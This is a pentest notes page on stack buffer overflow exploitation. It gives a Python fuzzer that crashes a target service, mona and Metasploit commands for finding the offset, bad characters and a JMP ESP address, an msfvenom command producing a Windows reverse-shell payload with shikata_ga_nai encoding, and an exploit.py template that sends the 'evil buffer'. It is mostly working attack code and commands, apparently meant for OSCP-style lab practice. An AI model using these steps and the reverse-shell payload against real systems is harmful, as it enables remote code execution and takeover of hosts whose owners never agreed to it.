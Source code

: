 # Buffer Overflow

## Fuzzers

{% embed url="https://github.com/AceSineX/BOF-fuzzer-python-3-All-in" %}

```python
#!/usr/bin/python3

import sys, socket
from time import sleep

buffer = "A" * 100
prefix = ""
while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('192.168.49.177',7138))

        payload = prefix + buffer
        s.send((payload.encode()))
        s.close()
        sleep(1)
        buffer = buffer + "A"*100

    except:
        print ("Fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()
    
```

## Steps

* Fuzz and crash program w/ A's
* Create msfpattern

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```

* Provide EIP to find offset

```
!mona findmsp -distance 600
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q (EIP value)
```

* Check for bad characters

```
!mona config -set workingfolder c:\mona\%p 
!mona bytearray -cpb "\x00"
!mona compare -f c:\mona\nameOfProgram\bytearray.bin -a ESP-Address
```

* Find JMP ESP/Return Address
  * make sure protection schemes are off and base address doesn't contain bad chars

```
!mona jmp -r ESP -cpb "\x00" <-- put all bad characters
```

* Generate Shellcode

{% code overflow="wrap" %}
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.x.x LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00"
```
{% endcode %}

* Exploit!

## Exploit.py

```python
import socket

ip = "192.168.0.1"
port = 9999

prefix = ""
offset = 0
overflow = "A" * offset
retn = "" # JMP ESP/Return Address
padding = "" # "\x90" * 16 # nops
payload = ("")
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```
